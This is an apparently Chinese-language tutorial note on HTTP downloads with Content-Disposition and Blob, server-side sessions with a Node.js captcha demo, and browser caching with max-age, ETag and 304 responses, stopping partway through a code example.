点击按钮一，`http://localhost:8001/api/echo`，服务器返回了请求报文的响应行和响应头的内容，可以看到浏览器自动加上了很多响应头



刷新后，连续两次点击按钮二，`http://localhost:8001/api/cached`



左边 `23:27:17` 是点击按钮时 `new Date()` 生成的**客户端时间**，两次都不同（如果你点慢了就会差几秒）

右边 `23:27:02` 是服务器 `res.end(...)` 里写进响应体的**服务器时间**，两次完全一样——说明第二次根本没碰服务器，拿的是第一次的旧内容


第一次点击时请求行的显示



第二次点击请求行的显示




## 文件下载


### 是什么

"下载"不是前端能力，也不是某种特殊请求，而是浏览器看到某个响应头之后的行为。

浏览器拿到响应默认会尝试打开（能渲染就渲染，不能就下载）。


所以在服务器端，响应头中的`Content-Disposition`，能决定存不存，如何存

```
Content-Disposition: attachment; filename="xxx.jpg"
```

| 值               | 含义       | 浏览器行为                                        |
| ---------------- | ---------- | ------------------------------------------------- |
| 不写 / `inline`  | 内联       | 能显示就直接显示（图片、PDF、txt 都在页面里打开） |
| `attachment`     | 附件       | 弹下载框 / 存到下载目录                           |
| `filename="xxx"` | 建议保存名 | 决定存盘时的默认文件名                            |

服务器代码片段

```js
const server = http.createServer(async (req, res) => {
	// 。。。
    const headers = {
      'Content-Type': 'text/plain; charset=utf-8',
      'Content-Length': content.length,
        // 。。。
      'Content-Disposition': `attachment; filename="download.txt"; filename*=UTF-8''${encodeURIComponent(filename)}`; // 关键在这行
    };
    res.writeHead(200, headers);
    return res.end(content);
});
```


### 前端下载相关语法

```js
// 1. 服务器已经加了 Content-Disposition —— 直接跳转即可，最常用
location.href = '/api/file?id=1';
// 或 <a href="/api/file?id=1">下载</a>

// 2. 服务器没加，但资源同源 —— 用 a 标签的 download 属性
<a href="/img/a.jpg" download="我的图片.jpg">下载</a>
// ⚠️ 边界：download 属性对跨域 URL 无效，会退化成普通跳转


```


下载前端生成的数据

在浏览器里“凭空”制造一个文件内容，再生成一个临时下载地址，最后用 `<a download>` 触发下载。

```js
const blob = new Blob([JSON.stringify(data)], { type: 'application/json' });
const url = URL.createObjectURL(blob);

const a = document.createElement('a');
a.href = url;
a.download = 'data.json';
a.click();

URL.revokeObjectURL(url);                // 用完释放，否则内存泄漏
```

1. 把 JS 数据变成 JSON 字符串，装进一个 `Blob` 里。
2. 用 `URL.createObjectURL` 给这个内存中的 `Blob` 创建一个临时 URL。
3. 创建 `<a>` 标签，设置 `download` 属性，模拟点击。
4. 浏览器识别到 `download`，把该 URL 的内容作为文件下载下来。


`Blob` 全称是 **Binary Large Object**，可以理解为：内存中的一包二进制数据

`Blob`对象可以想象其为一个数据容器

```js
new Blob([JSON.stringify(data)], { type: 'application/json' })
```

- `new Blob([...])` 里的数组表示“片段列表”，浏览器会把这些片段拼成一个完整的二进制数据。
- `JSON.stringify(data)` 把 JS 对象变成字符串
- `{ type: 'application/json' }` 是 MIME 类型，告诉浏览器：这段内容应该被识别为 JSON。

如果导出csv可以写

```js
new Blob([csvString], { type: 'text/csv' })
```


### 完整例子

后端node.js

```js
import http from 'node:http';
import { URL } from 'node:url';

const PORT = 8000;

http.createServer((req, res) => {
  const url = new URL(req.url, `http://${req.headers.host}`);
  const pathname = decodeURIComponent(url.pathname);

  // 【实验2】文件下载：同一个资源，靠响应头决定"打开"还是"下载"
  if (pathname === '/api/file') {
    const mode = url.searchParams.get('mode'); // inline | attachment
    const content = Buffer.from(`这是服务器生成的文件内容\n时间：${new Date().toISOString()}\n`, 'utf8');
    const filename = '壁纸说明.txt';
    const headers = {
      'Content-Type': 'text/plain; charset=utf-8',
      'Content-Length': content.length,
    };
    if (mode === 'attachment') {
      // filename* 用于中文名，filename 是老浏览器兜底
      headers['Content-Disposition'] =
        `attachment; filename="download.txt"; filename*=UTF-8''${encodeURIComponent(filename)}`;
    }
    res.writeHead(200, headers);
    return res.end(content);
  }

  res.writeHead(404);
  res.end('404');
}).listen(PORT, () => console.log(`http://localhost:${PORT}`));
```

前端html

```html
<!-- HTML -->
<button id="btnInline">不带 Content-Disposition → 浏览器直接打开</button>
<button id="btnAttach">带 attachment → 触发下载</button>

<!-- Script -->
<script>
  document.getElementById('btnInline').onclick = () => { location.href = '/api/file?mode=inline'; };
  document.getElementById('btnAttach').onclick = () => { location.href = '/api/file?mode=attachment'; };
</script>
```


### 例子现象

页面




点击按钮一

对应按钮中的location.href,直接跳转到页面`http://localhost:8000/api/file?mode=inline`



网络 → 服务器返回的响应中，其响应头里并没有Content-Disposition字段




点击按钮2

直接触发下载



对应响应的响应头中




## session


### cookie缺陷

HTTP 是**无状态**的，服务器天生认不出"这次请求和上次是同一个人"。cookie 是第一个解法：服务器 `Set-Cookie`，浏览器存下来，之后每次请求**自动**带上。

但 cookie 有个致命边界：**它存在客户端，用户完全可控、完全可见。**


场景：




### session 是什么

session 是**存在服务器端的键值对数据**，通过一个叫 **sessionid（sid）** 的随机字符串与某个客户端关联；sid 通过 cookie 传递。

> cookie 从"存数据"退化成"只存一张号码牌"，真正的数据留在服务器。

在下面的例子中，向服务端请求验证码

响应标头带上了cookie



也可以直接查看



之后做与该响应相关联的操作就会携带这个cookie，通过匹配这个cookie，服务器做对应的操作


### 销毁 session

1、过期时间（主力方案）：客户端长时间不带 sid 来，服务器自动清理。每次访问都续期（滑动过期）—— 这就是"一直在操作就不会掉登录，离开十几分钟就要重新登录"的原理

2、客户端主动通知：点"退出登录"调接口，服务器删掉这条 session。（靠 JS 监听关页面并不可靠，只能兜底）


### session缺陷

session 的痛点是**有状态**：服务器必须存东西，扩容到多台机器就要共享存储。所以现在很多接口改用 **token/JWT** —— 把数据**加密签名后**发给客户端自己存，服务器只验签名不存东西（无状态）。**代价是签发后无法立即作废。** 判断标准还是那句：数据本身能不能给客户端看。


### 完整例子

服务端

```js
import http from 'node:http';
import crypto from 'node:crypto';
import fs from 'node:fs';
import path from 'node:path';
import { fileURLToPath } from 'node:url';

const __dirname = path.dirname(fileURLToPath(import.meta.url));
const PUBLIC_DIR = path.join(__dirname, 'public');
const PORT = 8000;
const SESSION_TTL = 60 * 1000;
const sessions = new Map(); // sid -> { data, expire }

/**
 * 读取浏览器发来的 cookie，返回sid
 * @param {import('http').IncomingMessage} req - http 请求对象
 * @returns {Record<string, string>} - cookie 键值对对象
 */
function readCookies(req) {
  const raw = req.headers.cookie || '';
  return Object.fromEntries(
    raw.split(';').filter(Boolean).map((kv) => {
      const i = kv.indexOf('=');
      return [kv.slice(0, i).trim(), decodeURIComponent(kv.slice(i + 1))];
    })
  );
}

/**
 * 获取或创建 session 对象
 * @param {import('http').IncomingMessage} req - http 请求对象
 * @param {import('http').ServerResponse} res - http 响应对象
 * @returns {{ sid: string, store: Record<string, any> }} - 会话对象，包括 sid 和存储数据
 */
function getSession(req, res) {
  let sid = readCookies(req).sid;
  let session = sid && sessions.get(sid);
  if (session && session.expire < Date.now()) { sessions.delete(sid); session = null; }
  if (!session) {
    sid = crypto.randomBytes(16).toString('hex');
    session = { data: {}, expire: Date.now() + SESSION_TTL };
    sessions.set(sid, session);
    res.setHeader('Set-Cookie', `sid=${sid}; Path=/; HttpOnly; SameSite=Lax; Max-Age=${SESSION_TTL / 1000}`);
  }
  session.expire = Date.now() + SESSION_TTL;
  return { sid, store: session.data };
}

/**
 * 读取请求体
 * @param {import('http').IncomingMessage} req - http 请求对象
 * @returns {Promise<Buffer>} - 请求体内容
 */
function readBody(req) {
  return new Promise((resolve, reject) => {
    const chunks = [];
    req.on('data', (c) => chunks.push(c));
    req.on('end', () => resolve(Buffer.concat(chunks)));
    req.on('error', reject);
  });
}

/**
 * 发送 JSON 响应
 * @param {import('http').ServerResponse} res - http 响应对象
 * @param {number} code - HTTP 状态码
 * @param {any} body - 响应体内容
 */
function json(res, code, body) {
  res.writeHead(code, { 'Content-Type': 'application/json; charset=utf-8' });
  res.end(JSON.stringify(body));
}

http.createServer(async (req, res) => {
  const url = new URL(req.url, `http://${req.headers.host}`);
  const pathname = decodeURIComponent(url.pathname);

  // session：发验证码（只把 sid 给浏览器，验证码留在服务器）
  if (pathname === '/api/captcha' && req.method === 'POST') {
    const { sid, store } = getSession(req, res);
    const body = JSON.parse((await readBody(req)).toString('utf8') || '{}');
    store.phone = String(body.phone || '');
    store.code = String(Math.floor(1000 + Math.random() * 9000));
    console.log(`[短信] 给 ${store.phone} 发送验证码 ${store.code}（sid=${sid.slice(0, 8)}…）`);
    return json(res, 200, { code: 0, msg: '验证码已发送，请看服务器终端', data: { sid } });
  }

  // session：验证验证码（浏览器带着 sid 来验证，服务器比对验证码）
  if (pathname === '/api/verify' && req.method === 'POST') {
    const { store } = getSession(req, res);
    const body = JSON.parse((await readBody(req)).toString('utf8') || '{}');
    if (!store.code) return json(res, 400, { code: 400, msg: 'session 已过期或未申请验证码', data: null });
    const ok = String(body.code) === store.code && String(body.phone) === store.phone;
    if (ok) delete store.code; // 用后即焚
    return json(res, 200, { code: ok ? 0 : 401, msg: ok ? '验证通过' : '验证码错误', data: null });
  }

  // session peek：查看当前 session 内容
  if (pathname === '/api/session-peek') {
    const { sid, store } = getSession(req, res);
    return json(res, 200, {
      浏览器带来的cookie: req.headers.cookie || '(无)',
      服务器上的sid: sid,
      服务器上存的数据: store,
    });
  }

  // 静态文件
  const rel = pathname === '/' ? 'index.html' : pathname.slice(1);
  const filePath = path.resolve(PUBLIC_DIR, rel);
  if (filePath.startsWith(PUBLIC_DIR) && fs.existsSync(filePath)) {
    res.writeHead(200, { 'Content-Type': 'text/html; charset=utf-8' });
    return res.end(fs.readFileSync(filePath));
  }

  res.writeHead(404); res.end('404');
}).listen(PORT, () => console.log(`http://localhost:${PORT}`));
```

前端html

```html
<input type="text" id="phone" placeholder="手机号" value="13800000000">
<button id="btnSend">发送验证码</button><br><br>
<input type="text" id="code" placeholder="验证码（去服务器终端看）">
<button id="btnVerify">校验</button>
<button id="btnPeek">看看浏览器/服务器各存了什么</button>
<pre id="sessionOut">document.cookie 读不到 sid，因为它是 HttpOnly 的 → <span id="jsCookie"></span></pre>

<script>
const $ = (id) => document.getElementById(id);
const show = (el, obj) => { el.textContent = typeof obj === 'string' ? obj : JSON.stringify(obj, null, 2); };

$('btnSend').onclick = async () => {
  const res = await fetch('/api/captcha', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ phone: $('phone').value }),
  });
  show($('sessionOut'), await res.json());
  $('jsCookie').textContent = document.cookie || '(空)';
};
$('btnVerify').onclick = async () => {
  const res = await fetch('/api/verify', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ phone: $('phone').value, code: $('code').value }),
  });
  show($('sessionOut'), await res.json());
};
$('btnPeek').onclick = async () => show($('sessionOut'), await (await fetch('/api/session-peek')).json());

$('jsCookie').textContent = document.cookie || '(空)';
</script>
```


### 例子现象

页面




点击发送验证码的按钮：

页面



点击发送验证码按钮，请求 `/api/captcha`


1、**浏览器第一次请求 `/api/captcha`，服务器生成一个随机 `sid`，把验证码存在服务器内存里（`sessions` Map），然后把 `sid` 写进响应头：**

从调试工具中查看响应标头里携带的cookie



服务器返回的响应体内容：



和cookie里携带的sid一致


2、**浏览器之后每次请求（`/api/verify`、`/api/session-peek`），都会自动在请求头里带上：**

```
Cookie: sid=a3f9...
```

这里点击按钮——看看浏览器/服务器各存了什么，发出`/api/session-peek`请求

页面


sid和前面都保持一致

这里存的数据，就是`sessions` Map：

```json
{
    "phone": "13800000000",
    "code": "4179"
  }
```

查看请求标头的cookie，明确携带了sid


直接点击cookie查看


3、**服务器用这个 `sid` 去 `sessions` Map 里找到对应的验证码，完成校验。**

输入验证码点击校验按钮，发送`/api/verify`请求

请求头中cookie携带的sid信息匹配 → code也匹配


返回的响应体显示验证通过


## http缓存协议


### 是什么

把服务器响应的**响应体 + 响应头**在客户端存一份，下次请求同一个资源时，直接用本地这份，不再走网络。


**解决的问题**：省流量、省服务器算力、省往返时间（RTT）。这是前端性能优化里**收益最高、成本最低**的一项。


| 项             | 说明                                                        |
| -------------- | ----------------------------------------------------------- |
| 缓存的 key     | 默认是 **请求方法 + 完整 URL**（query 变了就是另一个资源）  |
| 缓存什么       | 响应体 **+ 响应头**（响应头里的缓存指令是判断新鲜度的依据） |
| 谁存           | **浏览器**存，服务器不存也管不着                            |
| 谁决定能存多久 | **服务器**通过响应头下指令，浏览器执行                      |
| 只对什么生效   | 一般只对 **GET**（幂等、无副作用）；POST 默认不缓存         |


### 缓存决策流程


### 第一次请求：强制缓存


| 响应头                        | 作用                                     | 归属             |
| ----------------------------- | ---------------------------------------- | ---------------- |
| `Cache-Control: max-age=3600` | **能新鲜多久**（秒）                     | 强缓存           |
| `Date`                        | 服务器生成这个响应的时刻                 | 算过期时间的基准 |
| `ETag: W/"121-171ca289ebf"`   | 内容指纹（内容变→指纹变）。`W/` = 弱校验 | 协商缓存         |
| `Last-Modified`               | 文件最后修改时间（**精度只有秒**）       | 协商缓存         |

为什么要有两套（max-age 和 ETag）？

- `max-age` 决定"要不要问服务器" → 省掉整个 RTT
- `ETag/Last-Modified` 决定"问了之后要不要下载" → 省掉响应体


### 新鲜度怎么算


**要点**：

- 用 `Date` 而不是本地时间做基准，是为了扣掉网络传输耗时，避免缓存活得比服务器允许的更久。
- 最后那条叫 **启发式缓存（heuristic caching）**：服务器什么都没说，浏览器自己猜。规律是"越久没改的文件，越不容易改"，取修改间隔的 10%。这是很多"我明明改了代码，用户还看到旧的"事故的元凶 —— 服务器没配 `Cache-Control`，浏览器擅自缓存了。所以生产环境必须显式配置 `Cache-Control`。


### 过期之后：协商缓存与 304

协商缓存的作用是在强缓存失效后，让浏览器向服务器确认缓存的资源是否仍然有效，避免重复传输没有变化的资源。


1、缓存过期 ≠ 缓存被删。过期只是"不敢直接用了"，内容还留着，等服务器确认。


2、请求头是成对映射的：

- `ETag`是服务器为资源生成的一个版本标识符（实体标签），通常放在响应头中返回如：`ETag: "abc123"`

- `If-None-Match`是请求头，携带客户端之前保存的 ETag 值如： `If-None-Match: "abc123"`

- `If-Modified-Since`是请求头，携带客户端之前保存的 `Last-Modified` 时间，如：`If-Modified-Since: Wed, 21 Oct 2023 07:28:00 GMT`

- | 上次响应头      | 这次请求头          | 语义                             |
  | --------------- | ------------------- | -------------------------------- |
  | `ETag`          | `If-None-Match`     | "指纹不是这个的话才给我新的"     |
  | `Last-Modified` | `If-Modified-Since` | "这个时间之后改过的话才给我新的" |


3、两者都在时，服务器优先看 `ETag`。因为 `Last-Modified` 有两个硬伤：秒级精度（1 秒内多次改测不出）、文件重新生成但内容没变时间也会变。


4、`304` 没有响应体（几百字节的头），但带着新的 `Cache-Control` 和 `Date`` → 有效期被重新续上。


### 设计意图

责任划分：服务器视角 vs 浏览器视角


服务器—— 只发指令，不管存不存


浏览器—— 负责存、查、判断新鲜度

| 收到                          | 浏览器做什么                               |
| ----------------------------- | ------------------------------------------ |
| `200 OK` + 缓存指令           | 有对应缓存就**更新它**，没有就**新增**     |
| `304 Not Modified` + 缓存指令 | 只**更新有效期等元信息**，响应体继续用旧的 |


总结：HTTP 缓存是**无状态**的。服务器不记录"谁缓存了什么"，它只在响应里附一张"说明书"，存不存、什么时候用，全由客户端自己按说明书决定。这样才能让浏览器、CDN、代理这些中间节点各自独立工作。


### 客户端主动控制缓存

`Cache-Control` 既能出现在**响应头**，也能出现在**请求头**，含义不同。

请求头指令（客户端说了算）：

| 指令                      | 含义                                      |
| ------------------------- | ----------------------------------------- |
| `Cache-Control: no-cache` | 跳过强缓存，但允许走协商（必须问服务器）  |
| `Cache-Control: no-store` | 完全不用缓存，也不存                      |
| `Pragma: no-cache`        | HTTP/1.0 的老写法，为兼容旧代理而同时发送 |

DevTools → Network → 勾 **Disable cache**，之后每个请求头都会被加上 `Cache-Control: no-cache` + `Pragma: no-cache`。


刷新行为对照（实际开发天天遇到）：

| 操作                                      | 浏览器做什么                                 |
| ----------------------------------------- | -------------------------------------------- |
| 地址栏回车 / 点链接                       | 完整走三条路径，**强缓存可命中**             |
| `F5` 普通刷新                             | 主文档跳过强缓存走协商；子资源大多仍走强缓存 |
| `Ctrl + F5` / `Ctrl + Shift + R` 强制刷新 | 带 `no-cache`，重新请求资源                  |


### Vary：让缓存 key 加上请求头

问题：同一个 URL `/personal.html`，不同用户（不同 cookie）看到的内容不一样。如果只用 URL 做 key，用户 A 的页面会被用户 B 命中 —— 信息泄露。

**解决**：服务器响应 `Vary: cookie`，告诉缓存"这个资源还要按 cookie 分开存"。


回源指的是向服务器重新请求资源

最常用的场景：`Vary: Accept-Encoding`。同一个 URL，支持 gzip 的客户端拿压缩版，不支持的拿原文，两份必须分开存。

gzip在 Web 语境下，它主要用于压缩 HTTP 响应（以及请求）的文本类内容，如 HTML、CSS、JavaScript、JSON 等，可显著减小传输体积、加快加载速度。


### 完整例子

#### 强缓存 —— 只加一个响应头

```js
res.writeHead(200, {
  'Content-Type': 'application/javascript; charset=utf-8',
  'Cache-Control': 'max-age=10'   // 10 秒内浏览器不再发请求
});
res.end(body);
```

现象：

点击按钮1


strong.js第一次发送请求，正常从服务器获取资源：


过了7秒再次请求，内容仍然是40:27秒生成的，此时响应体来自缓存


之后再40：39秒再次请求，过了10秒的期限，没有达到强缓存条件，浏览器再次从服务器请求了资源


#### 协商缓存 —— 生成 ETag，比对请求头

node.js的http模块

```js
const stat = fs.statSync(file);
const etag = `W/"${stat.size}-${Math.floor(stat.mtimeMs)}"`;
const headers = {
  'Cache-Control': 'no-cache',            // 每次都来问
  ETag: etag,
